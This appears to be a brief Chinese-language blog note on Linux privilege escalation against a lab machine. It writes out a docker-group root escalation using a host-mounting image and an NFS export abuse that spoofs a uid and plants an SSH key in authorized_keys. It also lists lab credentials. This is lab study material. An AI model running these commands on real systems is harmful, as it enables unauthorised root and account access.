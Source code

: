 ```yaml
---
title: linux提权-msf提权插件编写中
categories:
- liunx
tags:
- liunx
---
```

linux提权-msf提权插件编写中

bob / secret

### docker组提权

```
docker run -v /:/linsecurity -i -t chrisfosterelli/rootplease
```
### nsf提权
```
查看并挂载目录
showmount -e 192.168.1.140
mount 192.168.1.140:/home/peter /mnt/peter

查看权限
ls -la /mnt/peter
touch this-wont-work

添加用户组和用户
groupadd --gid 1005 peter
useradd --uid 1001 --gid 1005 peter
su peter
pwd
touch this-will-work
ls -la

生成私钥
ssh-keygen
mkdir .ssh
ls -la /home/peter/.ssh
cat /home/peter/.ssh/id_rsa.pub > .ssh/authorized_keys

获得普通用户权限
ssh peter@192.168.1.140
whoami;id
```
### 参考资料
- https://s1gh.sh/lin-security/


